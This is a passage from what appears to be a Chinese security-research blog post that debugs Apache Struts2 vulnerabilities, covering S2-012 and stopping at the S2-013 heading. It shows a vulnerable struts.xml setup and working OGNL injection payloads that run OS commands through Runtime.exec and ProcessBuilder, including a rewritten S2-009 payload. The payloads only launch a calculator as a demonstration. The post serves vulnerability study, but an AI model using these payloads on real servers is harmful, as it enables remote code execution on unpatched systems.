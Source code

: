 # 前言

书接上回，本篇记录 s2-012/s2-013/S2-014/s2-015/s2-016/s2-018/s2-019/s2-020/s2-021/s2-022/s2-026/s2-032/s2-033/s2-037 的调试过程。

# S2-012

漏洞触发原理与 S2-001 类似，对 `%{}` 表达式进行了循环解析。

> 影响版本：Struts Showcase App 2.0.0 - Struts Showcase App 2.3.14.2
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-012
> 描述：当配置重定向结果从 stack 中读取并使用之前注入的代码作为重定向参数时，将导致表达式的二次解析。

在 struts.xml 中配置成如下，
```
<package name="S2-012" extends="struts-default">
	<action name="user" class="com.demo.action.UserAction">
		<result name="redirect" type="redirect">/index.jsp?name=${name}</result>
		<result name="input">/index.jsp</result>
		<result name="success">/index.jsp</result>
	</action>
</package>
```

Struts2 使用 StrutsResultSupport 的子类 ServletRedirectResult 类处理 redirect 结果，`execute()` 方法调用 `conditionalParse()` 方法去解析 `this.location`，也就是我们配置的 `/index.jsp?name=${name}`，调用了 `TextParseUtil.translateVariables()` 方法去解析，后续的解析逻辑与 S2-001 一致，不再重复，导致了二次解析。

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296644.png" style="zoom:50%;" />


此版本中构造 payload 别忘了调用静态方法时需要将 `_memberAccess` 的 allowStaticMethodAccess 设置为 true。最终的 payload 为：
```
%{#_memberAccess["allowStaticMethodAccess"]=true,@java.lang.Runtime@getRuntime().exec("open -a Calculator.app")}
```
或者：
```
%{new java.lang.ProcessBuilder(new java.lang.String[]{"open", "-a","Calculator.app"}).start()}
```

在看到第二种 payload 时，我人直接傻了，在之前的版本中为了绕过判断执行静态方法做了这么多尝试，却忘记了使用 ProcessBuilder 这种构造方法传递参数，然后调用 start 方法来执行命令。

这种情况就可以省略 `_memberAccess` 字段的修改，只需要修改 denyMethodExecution 即可，例如 S2-009 的 payload 就可以直接写为：

```
param=(#context["xwork.MethodAccessor.denyMethodExecution"]=false,new java.lang.ProcessBuilder(new java.lang.String[]{"open","-a","Calculator.app"}).start())(su18)&(param)(su19)
```

没想到啊没想到，妙啊妙啊。

# S2-013
